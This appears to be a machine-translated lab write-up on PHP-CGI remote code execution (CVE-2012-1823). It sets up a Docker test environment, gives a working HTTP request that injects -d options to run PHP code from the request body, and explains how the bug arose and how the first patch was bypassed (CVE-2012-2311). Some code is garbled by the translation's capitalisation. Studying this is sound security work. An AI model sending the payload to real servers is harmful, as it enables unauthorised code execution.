

# PHP-CGI Remote Code Execution Vulnerability (CVE-2012-1823)

## Principle

  - Reference article http://eindbazen.net/2012/05/php-cgi-advisory-cve-2012-1823/
  - Impact version php < 5.3.12 or php < 5.4.2

## test environment

Compile and run the environment:

```
Docker-compose build
Docker-compose up -d
```

After the environment is started, visit the word "http://your-ip/" to see "Hello php".


Visit `http://your-ip/index.php?-s` to see the source code, indicating that the vulnerability exists. Send the following packet, you can see that the code in the Body has been executed:

```
POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: example.com
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

<?php echo shell_exec("id"); ?>
```

## Vulnerability Interpretation

### PHP SAPI and Run Mode

First, let's talk about the operating mode of PHP.

Download the PHP source code, you can see that there is a directory called sapi. The role of sapi in PHP is similar to the "deliverer" of a message, such as I wrote in [Fastcgi Protocol Analysis & & PHP-FPM Unauthorized Access Vulnerability && Exp] (https://www.leavesongs.com/PENETRATION/ Fastfgi-and-php-fpm.html) The fpm introduced in the article, his role is to accept the data encapsulated by the Web container through the fastcgi protocol, and handed it to the PHP interpreter.

In addition to fpm, the most common sapi should be mod_php for Apache, which is used for data exchange between php and apache.

Php-cgi is also a sapi. In ancient times, the web application runs very simple. After receiving the http packet, the web container gets the file requested by the user (cgi script), and forks a child process (interpreter) to execute the file, and then takes By the execution result, it is returned directly to the user, and the interpreter subprocess is over. Most web applications based on bash, perl and other languages ​​are executed in this way. This type of execution is generally called cgi. When installing Apache, there is a cgi-bin directory by default. The earliest is to place these cgi scripts. of.

However, the cgi mode has a fatal flaw. As we all know, the creation and scheduling of processes are consumed, and the number of processes is not unlimited. Therefore, websites running on cgi mode usually cannot accept a large number of requests at the same time, otherwise each request generates a child process, which may explode the server. Then there will be fastcgi, the fastcgi process can run itself in the background, and accept the data packet through the fastcgi protocol, return the result after execution, but does not quit itself.

Php has a sapi called php-cgi. php-cgi has two functions, one is to provide cgi interaction, and the other is to provide fastcgi interaction. In other words, we can, like perl, let the web container directly fork a php-cgi process to execute a script; or run `php-cgi -b 127.0.0.1:9000` in the background (php-cgi as the manager of fastcgi) ) and let the web container interact with the 9000 using the fastcgi protocol.

So what is the fpm I said before? Why does php have two fastcgi managers? Php does have two fastcgi managers, php-cgi can run in fastcgi mode, and fpm runs in fastcgi mode. But fpm is introduced by php after version 5.3. It is a more efficient fastcgi manager. I don't have much to say about its many advantages. I can go through the source code myself. Because fpm has more advantages, more and more web applications are now using php-fpm to run php.

### Historical Causes

Go back to this vulnerability. CVE-2012-1823 is a vulnerability in the sapi of php-cgi. I introduced the two modes of operation provided by php-cgi: cgi and fastcgi. This vulnerability only appears in php running in cgi mode.

The vulnerability is simply that the querystring requested by the user is used as a parameter to php-cgi, which ultimately leads to a series of results.

Exploring the principle, [RFC3875] (http://www.ietf.org/rfc/rfc3875) stipulates that when the querystring does not contain the undecoded `=` number, the querystring should be passed as a parameter of cgi. . Therefore, the Apache server implements this functionality as required.

But PHP did not notice this rule of RFC, perhaps once noticed and dealt with, the processing method is that the input parameters are not allowed in the web context. But in 2004 a developer made such a statement:

```
From: Rasmus Lerdorf <rasmus <at> lerdorf.com>
Subject: [PHP-DEV] php-cgi command line switch memory check
Newsgroups: gmane.comp.php.devel
Date: 2004-02-04 23:26:41 GMT (7 years, 49 weeks, 3 days, 20 hours and 39 minutes ago)
 
In our SAPI cgi we have a check along these lines:
 
    if (getenv("SERVER_SOFTWARE")
        || getenv("SERVER_NAME")
        || getenv("GATEWAY_INTERFACE")
        || getenv("REQUEST_METHOD")) {
        cgi = 1;
    }
 
    if(!cgi) getopt(...)
 
As in, we do not parse command line args for the cgi binary if we are 
running in a web context.  At the same time our regression testing system 
tries to use the cgi binary and it sets these variables in order to 
properly test GET/POST requests.  From the regression testing system we 
use -d extensively to override ini settings to make sure our test 
environment is sane.  Of course these two ideas conflict, so currently our 
regression testing is somewhat broken.  We haven't noticed because we 
don't have many tests that have GET/POST data and we rarely build the cgi 
binary.
 
The point of the question here is if anybody remembers why we decided not 
to parse command line args for the cgi version?  I could easily see it 
being useful to be able to write a cgi script like:
 
  #!/usr/local/bin/php-cgi -d include_path=/path
  <?php
      ...
  ?>
 
and have it work both from the command line and from a web context.
 
As far as I can tell this wouldn't conflict with anything, but somebody at 
some point must have had a reason for disallowing this.
 
-Rasmus
```

Obviously, this developer is trying to use the syntax like `#!/usr/local/bin/php-cgi -d include_path=/path` to test that it should not restrict php-cgi to accept command line arguments, and This feature does not conflict with other code.

Thus, `if(!cgi) getopt(...)` was deleted.

But obviously, according to the instructions in the RFC for the command line, the command line parameters can be passed to php-cgi not only via `#!/usr/local/bin/php-cgi -d include_path=/path`, but also through the querystring. The way to pass in.

This is the historical cause of this vulnerability.

### Exploiting

Then, controllable command line parameters, what can be done.

By reading the source code, I found that the following parameters are available in cgi mode:

 - `-c` specifies the location of the php.ini file
 - `-n` Do not load the php.ini file
 - `-d` specifies the configuration item
 - `-b` starts the fastcgi process
 - `-s` display file source code
 - `-T` executes the specified file twice
 - `-h` and `-?` show help

The easiest way to use, of course, is `-s`, which can directly display the source code:



But the classmates who read the fastcgi article I wrote should soon think of a better way to use: by using `-d` to specify `auto_prepend_file` to create arbitrary file containing vulnerabilities and execute arbitrary code:


Note that spaces are replaced with `+` or `%20`, and `=` is replaced with url encoding.

### CVE-2012-2311

After the vulnerability was exploded, PHP officially patched it and released new versions 5.4.2 and 5.3.12, but the fix is ​​incomplete and can be bypassed, resulting in a CVE-2012-2311 vulnerability.

The PHP fix is ​​to check `-`:

```c
If(query_string = getenv("QUERY_STRING")) {
Decoded_query_string = strdup(query_string);
Php_url_decode(decoded_query_string, strlen(decoded_query_string));
If(*decoded_query_string == '-' && strchr(decoded_query_string, '=') == NULL) {
Skip_getopt = 1;
}
Free(decoded_query_string);
}
```

It can be seen that the querystring is decoded and decoded. If the first character is `-`, set skip_getopt, that is, do not get the command line argument.

The insecure part of this fix is ​​that if the operation and maintenance is a layer of encapsulation on php-cgi:

```
#!/bin/sh

Exec /usr/local/bin/php-cgi $*
```

Parameters can also be passed in by using the whitespace plus `-`. At this time, the first character of the querystring is a blank character instead of `-`, which bypasses the above check.

So, continue to modify in php5.4.3 and php5.3.13:

```c
If((query_string = getenv("QUERY_STRING")) != NULL && strchr(query_string, '=') == NULL) {
/* we've got query string that has no = - apache CGI will pass it to command line */
Unsigned char *p;
Decoded_query_string = strdup(query_string);
Php_url_decode(decoded_query_string, strlen(decoded_query_string));
For (p = decoded_query_string; *p && *p <= ' '; p++) {
/* skip all leading spaces */
}
If(*p == '-') {
Skip_getopt = 1;
}
Free(decoded_query_string);
}
```

Skip all whitespace characters (all characters less than or equal to spaces) and then determine if the first character is `-`.